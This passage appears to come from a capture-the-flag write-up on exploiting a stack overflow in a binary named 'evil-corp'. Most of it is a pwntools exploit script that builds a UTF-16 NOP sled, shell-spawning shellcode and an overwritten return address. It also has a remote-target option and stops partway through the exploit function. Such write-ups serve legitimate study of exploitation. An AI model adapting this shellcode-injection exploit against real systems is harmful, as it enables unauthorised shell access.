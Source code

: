Finally, we overwrite the `saved RIP` with the exact address of `cs:AssemblyTestPage`. It's crucial to append a `null byte` after this address to ensure it is correctly terminated.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./evil-corp', checksec=False)
context.arch = 'amd64'
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''
        b*ContactSupport+60
        b*ContactSupport+110
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, aslr=False)

p = start()

# ==================== EXPLOIT ====================

def login():
    sla(b'Username: ', b'eliot')
    sla(b'Password: ', b'4007')


def choice(option):
    sla(b'>> ', f'{option}'.encode())


def shellcode():

    # Using https://unicode-explorer.com/
    supportmsg   = '𐀀'
    assemblytestpage = '𑀀'

    # Using pwntools functions
    nop = b'\x90\x00'.decode('utf-16-le')
    null = '\x00'

    shellcode =  asm(shellcraft.sh()).decode('utf-16')

    # Padding is 0x3e88 / 4 = 0xfa2
    payload = nop * 0x800
    payload += shellcode
    payload = payload.ljust(0xfa2, null)
    payload += assemblytestpage + null
    # payload += nop * 2

    return payload


def exploit():

    login()
    choice(2)
```